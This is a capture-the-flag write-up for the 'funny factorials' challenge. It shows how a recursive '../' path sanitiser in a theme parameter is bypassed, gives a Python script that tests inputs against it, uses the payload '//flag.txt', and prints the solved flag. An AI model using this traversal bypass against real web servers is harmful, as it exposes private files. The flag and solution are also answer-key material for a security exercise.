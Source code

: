 # funny factorials

## Prompt

I made a factorials app! It's so fancy and shmancy. However factorials don't seem to properly compute at big numbers! Can you help me fix it?

`funny-factorials.amt.rs`

## Solution

The `Dockerfile` reveals that there is a `flag.txt` in the root directory.

`app.py` reveals that there is a possibly directory traversal vulnerability in the `theme` query parameter.

It is not easy to access this because there is a recursive script sanitzing user path input. This script tests inputs and finds what works for accessing `flag.txt`.

```py
import sys

def filter_path(path):
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        return path


if __name__ == '__main__':
    sys.setrecursionlimit(100)
    path1 = ".." * 99 + "/" * 99 + "flag.txt"
    print(path1)
    print(filter_path(path1))

    path2 = "/" * 2 + "flag.txt"
    print(path2)
    print(filter_path(path2))
```

![1](image1.png)

Trying to replace the theme with `//flag.txt` gives the flag.

![2](image2.png)

## Flag

`amateursCTF {h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}`
